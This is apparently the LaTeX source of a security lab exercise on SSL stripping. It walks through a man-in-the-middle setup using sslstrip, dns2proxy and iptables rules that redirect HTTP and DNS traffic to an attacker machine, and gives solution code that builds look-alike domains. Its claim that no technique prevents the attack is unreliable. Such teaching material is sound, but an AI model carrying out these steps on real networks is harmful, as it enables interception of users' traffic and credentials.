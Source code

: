 \documentclass[final]{article}
\begin{document}
\noindent To correctly mount this attack, you have to follow this procedure:
\begin{itemize}
  \item Mount a MitM attack
  \item Implement the missing code in \texttt{sslstrip/URLMonitor.py} and execute it \texttt{./sslstrip.py -l <sslstrip\_port>}
  \item Using iptables, create a specific rule to redirect the traffic from the port 80 to the port where sslstrip is running\\
  \texttt{sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <sslstrip\_port>}
  \item Implement the missing code in \texttt{dns2proxy.py} and execute it \texttt{./dns2proxy.py}
  \item Create a specific rule to redirect all the traffic in the attacker virtual machine changing the destination ip.\\
  \texttt{sudo iptables -t nat -A PREROUTING -p udp --dport 53 -i enp0s8 -j DNAT --to <attacker\_ip>}
  \item Analyze the behaviour using Wireshark, being sure that all this trick has being working properly
\end{itemize}


\subsubsection{Countermeasures}
Unfortunately, there is no default technique to prevent this type of attack. The user must always check the correctness of the URL in the address bar.

\subsubsection{Solution of the exercise
}
\textbf{Missing code in \texttt{sslstrip/URLMonitor.py}}
\lstset{language=Python}
\begin{lstlisting}
  if host[:4] == "www.":
      fake_domain = "w" + host
  else:
      fake_domain = "web" + host

\end{lstlisting}

\noindent\textbf{Missing code in \texttt{dns2proxy.py}}
\begin{lstlisting}
  if host[:5] == 'wwww.':
      real_domain = host[1:]
  elif host[:3] == 'web':
      real_domain = host[3:]

\end{lstlisting}
\end{document}
